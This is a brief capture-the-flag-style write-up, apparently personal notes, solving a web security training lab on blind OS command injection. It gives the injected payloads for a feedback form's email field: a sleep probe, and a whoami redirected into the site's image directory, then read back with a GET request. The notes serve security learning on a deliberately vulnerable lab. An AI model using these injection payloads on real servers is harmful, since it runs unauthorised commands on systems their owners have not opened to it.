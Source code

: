 # Blind OS command injection with output redirection

1. Command injection: feedback function.
2. Goal: execute the whoami command and retrieve the output.

### Analysis
- Website target: `https://0afc001e04d1330b80bf9453001c0018.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.
- You should `submit feedback`.

1. Confirm blind command injection.
```bash
; sleep 10 #
# email parameter.
```

2. Check where images are store.
```bash
# Look at proxy history to see images directory.
# Checl image filters in burpsuite.
/var/www/images/
```

3. Redirect output to file.
```bash
& whoami > /var/www/images/output.txt #
```

4. Check if file was created.
```bash
# Open random image file that we send to repeater.
GET /image?filename=output.txt HTTP/2
# I got username: peter-BUpMk9.
```